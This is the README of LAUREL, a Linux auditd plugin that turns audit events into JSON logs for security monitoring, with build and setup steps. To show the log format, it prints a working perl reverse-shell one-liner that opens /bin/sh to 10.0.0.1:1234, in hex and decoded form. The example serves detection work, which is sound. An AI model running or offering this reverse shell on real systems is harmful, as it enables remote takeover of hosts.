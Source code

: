 # LAUREL: Linux Audit – Usable, Robust, Easy Logging

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source. The generated event even contains useful information about the spawning process:
```
"PARENT_INFO":{"ARGV":["bash"],"launch_time":1626611323.973,"ppid":3190631}
```

## Description

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing and transforming them into more data and writing them out as a JSON-based log format, while keeping all information intact that was part of the original audit log. It does not replace _auditd(8)_ as the consumer of audit messages from the kernel. Instead, it uses the _audisp_ ("audit dispatch") interface to receive messages via _auditd(8)_. Therefore, it can peacefully coexist with other consumers of audit events (e.g. some EDR products).

Refer to [JSON-based log format](json-format.md) for a description of the log format.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to [Performance](performance.md) for details.

## A word about audit rules

A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>, but generally speaking, any ruleset will do. _LAUREL_ will currently only work properly if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Build from source…

_LAUREL_ is written in Rust. To build it, a reasonably recent Rust compiler (we currently use 1.48), `cargo`, and the 
`libacl` library and its header files (Debian: `libacl1-dev`, RedHat: `libacl-devel`) are required.

``` console
$ cargo build --release
$ sudo install -m755 target/release/laurel /usr/local/sbin/laurel
```

## …or use the provided binary

Static Linux/x86_64 binaries are built for tagged releases.

## Configure, use

- Create a dedicated user, e.g.:
    ``` console
    $ sudo useradd --system --home-dir /var/log/laurel --create-home _laurel
    ```
- Configure _LAUREL_: Copy the provided annotated [example](etc/laurel/config.toml) to `/etc/laurel/config.toml` and customize it.
- Register _LAUREL_ as an _audisp_ plugin: Copy the provided [example](etc/audit/plugins.d/laurel.conf) to `/etc/audisp/plugins.d/laurel.conf` or `/etc/audit/plugins.d/laurel.conf` (depending on your _auditd_ version).
- If you are running SELinux, compile the provided policy and install it into the running kernel:
    ``` console
    $ make -C contrib/selinux
    $ sudo semodule -i contrib/selinux/laurel.pp
    $ sudo restorecon -v -R -F /usr/local/sbin/laurel /etc/laurel /var/log/laurel
    ```
- Tell _auditd(8)_ to re-evaluate its configuration
    ``` console
    $ sudo pkill -HUP auditd
    ```

## Test, Debug

For debugging and other testing purposes, _LAUREL_ can be run without specifying any configuration file. It will not change users and read events from standard input, just as it would when called from _auditd_. Log entries arewritten to `audit.log` in the current working directory.

## Local development using a container

If you'd like to skip all the bells and whistles of setting up the project, you can get up and running quickly using an
"All-In-One" Docker container. It's a wrapper around laurel that enables you to compile it and all of its dependencies,
and then work off the container instead of compiling locally.

The `Makefile` contains a set of commands intended to scaffold a container from scratch.
 
Just run `make dargo COMMAND=X`, where `X` is any valid `cargo` command, inside the project's root folder.
If this is the first time you run the command, it will:

1. Create a Docker image with a pre-determined working directory
2. Run an (interactive / long-running) container off that image, with the local `laurel` project folder bind-mounted to the working directory
3. Run `cargo X` inside the container

When the Makefile target finishes, you will have a running container on your machine that you can compile `laurel` in.
That container allows you to take advantage of `rustc`'s incremental compilation, without compiling locally.

If it's not the first time you run the command, it will just run `cargo X` inside the container.

If you'd like to go for maximum ergonomics, run the following command (swapping `~/.bashrc` for `~/.zshrc` or wherever you keep your shell stuff):
 
```bash
echo 'dargo(){ make dargo COMMAND=$1}' >> ~/.bashrc
source ~/.bashrc
```

This will now enable you to run `dargo X` instead of `make dargo COMMAND=X`, to get a more `cargo`-like feel while using the container.
Try running `dargo check` to see how if feels!

### Container-based development example

Just to make sure everything is clear, let's run a step-by-step mini tutorial on developing in container-based workflow "mode":

1. Clone the repo to your local machine:
```shell 
git clone https://github.com/threathunters-io/laurel.git # Or your fork
cd laurel
```
2. Make some changes to a source file.
3. Run the following to create the laurel container and then test your changes:
```shell
make dargo COMMAND=test
```
## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>
